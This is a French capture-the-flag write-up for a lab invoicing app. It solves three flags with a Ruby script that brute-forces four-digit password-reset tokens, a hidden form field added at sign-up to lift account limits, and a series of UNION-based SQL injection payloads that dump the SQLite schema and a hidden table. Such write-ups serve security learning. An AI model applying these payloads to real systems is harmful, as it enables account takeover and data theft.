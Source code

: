 
# Flag 1

> `FLAG-88541066556eecf7269cf2a4d0220222`

On fait un peut reconnaissance, on trouve le fichier `robots.txt` qui demande au robots du web d'indexer le page `/help-center`.

```
user-agent: *
Allow: /help-center
```

En navigant à cette page on voit plusieurs articles d'aide.

L'article **Password Reset** explique comment faire un changement de mot de passe. On constate que le jeton de changement de mot de passe est composé de seulement 4 chiffres, il y a donc seulement `10 ^ 4 = 10 000` possibilité ce qui est facilement récupérable par force brute.

Une autre information intéressante est l'adresse courriel utilisé pour la démo.

```
support@invoicer.com
```

Notre objectif est faire un changement de mot de passe sur cet utilisateur pour pouvoir ce connecter avec son compte.

On peut aussi constater que le jeton de mot de passe peu seulement être regénéré à toute les 10 minutes, ce qui nous donne assez de temps pour le trouver par force brute.

Il est possible d'écrire un script afin de trouver le jeton en question, voici un exemple en [Ruby](https://www.ruby-lang.org/en/).

```ruby
require 'net/http'

uri = URI('http://localhost:3000/')
(0..9999).each do |number|
  token = number.to_s.rjust(4, '0')
  print "\r#{token}"
  uri.path = "/password_resets/#{token}/edit"
  response = Net::HTTP.get_response(uri)
  if response.code == '200'
    puts "\n#{uri}"
    break if response.body.include?('Invoicer Support Account')
  end
end
```

Une fois le jeton trouvé change le mot de passe manuellement en visitant l'URL de changement de mot de passe.

Une fois connecté avec l'account on obtient le drapeau.

# Flag 2

> `FLAG-94b98c9a4246392468e57df1a85cc649`

Si on essaye d'aller à la page "Metrics" on a un message d'erreur:

```
Forbidden: your account is limited to the basic feature.
```

On fait un peut reconnaissance, on voit qu'il y a un commentaire dans le code HTML de la page "Profile".

```html
  <!-- NOTE: Every account except the internal account is in demo for the moment. -->
  <!--
  <div class="form-group form-check">
    <input name="user[demo]" type="hidden" value="0" /><input class="form-check-input" type="checkbox" value="1" checked="checked" name="user[demo]" id="user_demo" />
    <label class="form-check-label" for="user_demo">Demo</label>
    <small class="form-text text-muted">Features are limited in demo.</small>
  </div>
  -->
```

Il est impossible de changer le champ `user[demo]` via la page de "Profile". Mais il est possible de créer un nouveau compte avec ce champ.

Il est possible de modifier le HTML de la page "Register" et d'ajouter le input `user[demo]` et mettre la valeur à `0`.

Par la suite on peut créer l'account sans restriction puis visiter la page "Metrics".

# Flag 3

> `FLAG-47e3607c41a277b261556cc39bfe3e38`

On voit qu'il y a une injection SQL en cherchant une _invoice_ avec le keyword `'` car on obtient une erreur.

On détermine le context de la requête par essaie et erreur. On se rend compte qu'il est possible de tout afficher les _invoices_ avec cette requête.

```
') OR 1) --
```

On peut trouver le nombre de colonnes de la requête `SELECT` avec l'opérateur `UNION` et une autre requête `SELECT`. Il suffit d'augmenter le nombre de colonne jusqu'à ce que le résultat du deuxième `SELECT` soit affiché.

```
') OR 1) UNION SELECT 1 --
```

```
') OR 1) UNION SELECT 1,2 --
```

```
') OR 1) UNION SELECT 1,2,3 --
```

...

On continue jusqu'à cette requête.

```
') OR 1) UNION SELECT 1,2,3,4,5,6,7,8,9 --
```

Maintenant on peut détermine que la base de données utilisée est [SQLite](https://www.sqlite.org/) avec cette requête:

```
') OR 1) UNION SELECT 1,2,3,sqlite_version(),5,6,7,8,9 --
```

Dans _SQLite_ la table `sqlite_master` contient le schéma de la base de données. Il suffit de selectionner la colonne `sql` pour avoir le code _SQL_ utiliser pour la création de celle-ci. Puisque les champs sont _truncate_ à l'affichage on peut selectionner en plusieurs requêtes ou sur plusieurs colonnes.

```
') OR 1) UNION SELECT 1,2,3,substr(sql,0, 24),substr(sql,24, 48),6,7,8,9 FROM sqlite_master --
```

On trouve la table `"super_hidden_secret_features"`, maintenant on chercher ses colonnes.

```
') OR 1) UNION SELECT 1,2,3,substr(sql,62, 24),substr(sql,86, 24),6,7,8,9 FROM sqlite_master WHERE sql LIKE "%super_hidden_secret_features%"--
```

```
') OR 1) UNION SELECT 1,2,3,substr(sql,110, 24),substr(sql,134, 24),6,7,8,9 FROM sqlite_master WHERE sql LIKE "%super_hidden_secret_features%"--
```

```
') OR 1) UNION SELECT 1,2,3,substr(sql,158, 24),substr(sql,182, 24),6,7,8,9 FROM sqlite_master WHERE sql LIKE "%super_hidden_secret_features%"--
```

```
') OR 1) UNION SELECT 1,2,3,substr(sql,206, 24),substr(sql,230, 24),6,7,8,9 FROM sqlite_master WHERE sql LIKE "%super_hidden_secret_features%"--
```

On obtient le schéma SQL suivant:

```sql
CREATE TABLE "super_hidden_secret_features" ("id" integer PRIMARY KEY AUTOINCREMENT NOT NULL, "name" varchar NOT NULL, "hidden" boolean DEFAULT 1 NOT NULL, "created_at" datetime(6)	NOT NULL, "updated_at" datetime(6) NOT NULL)
```

Maintenant on peu lire les données dans cette table:

```
') OR 1) UNION SELECT 1,2,3,substr(name, 0, 24),substr(name, 24, 48),6,7,8,9 FROM super_hidden_secret_features --
```

On obtient le drapeau!
